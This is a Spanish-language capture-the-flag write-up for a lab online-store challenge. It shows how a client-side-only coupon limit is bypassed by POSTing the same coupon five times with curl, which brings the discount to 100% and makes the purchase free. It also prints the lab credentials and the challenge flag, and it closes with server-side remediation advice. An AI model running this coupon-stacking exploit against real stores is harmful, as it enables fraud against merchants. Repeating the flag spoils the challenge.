

# ProMarket

**Plataforma:** HackLab (SoftwareSeguro)

**Edición:** HackLab 2026

**Categoría:** Lógica de negocio

**Herramientas:** curl

## Enunciado

Una nueva tienda online está ofreciendo una promoción imperdible: si comprás los 5 ítems marcados te dan un premio. ¿Qué es el premio? Lo descubrirás cuando lo ganes.

Tu amigo Juan quiere que lo ayudes a conseguir este premio, pero está corto de dinero.

Juan te pasó su cuenta:

- **Usuario:** `juancho`
- **Contraseña:** `juancito445`

**Objetivo:** ayudá a Juan a comprar los 5 ítems marcados con ★ Setup Definitivo y conseguir el premio. La flag es el premio que entrega la tienda al completar la promoción.

## Análisis

La tienda regala $ 100.000 de saldo al entrar. Los 5 productos marcados con ★ Setup Definitivo cuestan:

| Producto | Precio |
|---|---|
| Notebook Gamer 16" RTX | $ 2.499.000 |
| Placa de video RTX 4090 24GB | $ 1.899.000 |
| Monitor curvo 34" UltraWide | $ 649.000 |
| Teclado mecánico RGB | $ 189.000 |
| Auriculares con cancelación de ruido | $ 349.000 |
| **Total** | **$ 5.585.000** |

El saldo de $ 100.000 no alcanza ni de cerca. La tienda ofrece un cupón de bienvenida `HACKLAB20` que da **20% OFF**, pero aún con el descuento el total queda en ~$ 4.468.000. Hay que eludir el pago.



En el resumen del carrito, al aplicar el cupón, se observa un detalle clave: los cupones se renderizan como una **lista** (`<ul class="cupones">`) y el texto aclara *"Máximo un cupón por compra"*. Tras aplicar uno, el botón **Aplicar** aparece con el atributo `disabled`:

```html
<button type="submit" class="btn" disabled>Aplicar</button>
<p class="ayuda">Máximo un cupón por compra.</p>
<ul class="cupones">
  <li>🏷️ HACKLAB20 <span>-20%</span></li>
</ul>
```

Ese `disabled` es **solo del lado del cliente**. El backend nunca valida que haya un único cupón: simplemente **suma los porcentajes** de todos los cupones que recibe por `POST /carrito/cupon`.

## Explotación

El flujo vulnerable es acumular el mismo cupón varias veces enviando el POST directamente (ignorando el botón deshabilitado). Cada repetición suma 20% y el descuento topea en 100%:

```bash
BASE="https://chl-...-pro-market.b.softwareseguro.com.ar"

# 1) Login como juancho
curl -s -c cookies.txt "$BASE/login" \
  -d "usuario=juancho&clave=juancito445"

# 2) Agregar los 5 ítems del Setup Definitivo (IDs 1..5)
for id in 1 2 3 4 5; do
  curl -s -b cookies.txt "$BASE/carrito/agregar" -d "id=$id"
done

# 3) Apilar el cupón HACKLAB20 cinco veces -> 20%*5 = 100%
for i in 1 2 3 4 5; do
  curl -s -b cookies.txt "$BASE/carrito/cupon" -d "codigo=HACKLAB20"
done

# 4) Pagar: total $ 0,00
curl -s -b cookies.txt -X POST "$BASE/carrito/pagar"
```

El resumen del carrito queda con el descuento acumulado al 100%:

```
Subtotal         $ 5.585.000,00
Descuento (100%) - $ 5.585.000,00
Total            $ 0,00
Tu saldo         $ 100.000,00
```

Al pagar con total $ 0,00 la compra se concreta sin consumir saldo y la tienda entrega el premio en **Mis compras**:

```
¡Compra realizada con éxito! Pagaste $ 0,00.

🎉 ¡Felicitaciones!
Flag: 058c596e89d2e906e2918416d5c6cd8e
```

## Flag

```
058c596e89d2e906e2918416d5c6cd8e
```

## 🛡️ Remediación (Developer Perspective)

- **Validar la regla "un solo cupón" en el servidor**, no con el atributo `disabled` del botón. Rechazar en `POST /carrito/cupon` cualquier cupón adicional (y los duplicados) cuando ya hay uno aplicado; nunca confiar en controles de UI.
- **Topear el descuento** a un valor razonable del negocio y recalcular el total en el servidor al momento de pagar, verificando que coincida con el carrito y los cupones realmente válidos.
- Tratar los códigos de cupón como de **un solo uso por compra/usuario** cuando corresponda, para evitar el apilamiento del mismo código.
